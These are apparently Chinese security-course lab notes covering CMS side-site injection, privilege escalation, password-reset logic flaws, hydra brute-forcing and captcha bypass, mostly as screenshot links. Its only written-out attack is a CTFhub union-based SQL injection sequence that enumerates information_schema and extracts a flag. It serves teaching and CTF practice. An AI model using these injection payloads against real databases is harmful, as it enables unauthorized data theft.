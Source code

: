## 1.bluecms 旁注漏洞练习，为什么旁站攻击可以拿下主站？跨库的意思是什么？理解基于功能挖掘漏洞的过程。

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-11-03-1698739184142_2EB2FE3D-F7E6-43c8-B396-9FE559DE276D.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-11-12-1698739245364_838A1BCF-076B-4a90-B7C4-48CDBBA37BE3.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-11-24-4cbef525240ed23060b9c5aae98a8562.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-11-45-37dbc403f9ca9b26867bc308168ac911.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-11-51-3bec62f770f6fece74b822a4cd6766f5.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-12-03-da758204bd64bf07c949a44900385e29.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-12-10-8029abde955b84ab4e80e3a1d3d33c3d.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-12-15-fcd6b65e1e14c9ea99ff88b8d3ed8f61.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-12-22-981836d8134a0496b6594e7d35e3f0e2.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-12-27-1a42c59e1b67589422ef2177163dc7e3.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-12-35-a77ba9f365e645b9c12d6ef7dd7e1672.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-12-47-8d90a967b474d12926d1a4f1cd6e636a.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-12-53-73b69ee129be09128ecabd02377e2005.png)

## 2.水平越权 & 垂直越权漏洞实验。

### 水平越权

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-13-37-b7bce3961360ee8251cdeeee39d5679a.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-13-45-66c7cf1273bd0263d6f135bfb6da0261.png)

### 垂直越权

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-14-00-796022e37a49646b8e8ee020642ededf.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-14-09-3dd558816af023b9a879b9d5bb937eb2.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-14-21-62374f8adf4435e9a81b5a60c9361bbe.png)

## 3. 密码修改逻辑漏洞

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-15-52-efe5f2a12e2d6d89149f0947eb47329c.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-15-58-70dc36402769dd913b3ab8cb1cd71d45.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-16-05-5d13868f9c80eb130e86123c3a3197f2.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-16-13-829472aa150edbb1c02b2a105a949bd4.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-16-19-91c8d49ed4705bdcd1e1119cfff2a228.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-16-26-ed27e59af1cfc9ccd74d2eee02023758.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-16-33-1c211e9a82f7084e4eec5835cb95d1b2.png)

## 4. 暴力破解：使用 hydra 实现对 ftp、ssh、rdp、mysql 的暴力破解

### ftp

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-17-06-4c9a23dff8d707d542cc7b690b1d3808.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-17-12-00042c753e02058a501ee6fda1925eed.png)

### ssh

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-17-29-e56bcabaa435ecf038f1a06392ccea6b.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-17-36-cc1e75c38a2b9c0749f3bc0b1580d200.png)

### rdp![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-18-09-cc1e75c38a2b9c0749f3bc0b1580d200.png)

### mysql

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-17-58-8e870cbe27f8f75eaa855e89d7814c52.png)

## 5.验证码安全

- 验证码绕过（on client）+ 验证码绕过（on server）

- 验证码绕过（on server）实验中，为什么 burp 拦截开启的状态下，通过 Repeater 进行重放不会刷新验证码，关闭拦截后才会刷新验证码？
  
  ### on client

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-18-41-7a17c51d85d2e70b77fea02f7e17edd6.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-18-46-3b39474b08f1ad3fafeab1e456e172fd.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-18-54-51ef8e725edd002b9e88f2cd093e4d8b.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-19-03-aba4e19a6b89336e7b1c6e9a32fcdc96.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-19-09-9fc8b3410c762efd5647eaada30ba3b7.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-19-47-68ea9cae8f3eecc236f7263d5a6a35b9.png)

### on server

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-19-53-49d95b4d642b79c014ef76157fdfda42.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-20-00-fc05abcc618b6f0435eaae2ef5a1ea43.png)

## 6.CTFhub：SQL 注入靶场，分别完成手工注入和 Sqlmap 工具注入的过程

### 手工注入

1）1' order by 2 # 回显

2）1' order by 3# 不回显

3）进行联合查询，将前面置为-1
-1' union select database(),2 #

获取数据库名字为sqli

4）查找库里面的所有表名
-1' union select group_concat(table_name),2 from information_schema.tables where
table_schema='sqli' #
发现flag表

5）查flag表里的所有字段
-1' union select group_concat(column_name) ,2 from information_schema.columns where
table_name='flag' #
发现flag字段

6）-1' union select flag,2 from sqli.flag #
查字段flag的内容得到flag

![](C:\Users\user\AppData\Roaming\marktext\images\2023-11-01-13-24-43-1698816073460_1259BF91-672D-4296-BD98-E1212DCF3B08.png)

### sqlmap注入（同理）

分别获取到库名，表名，列名。获取对应得字段


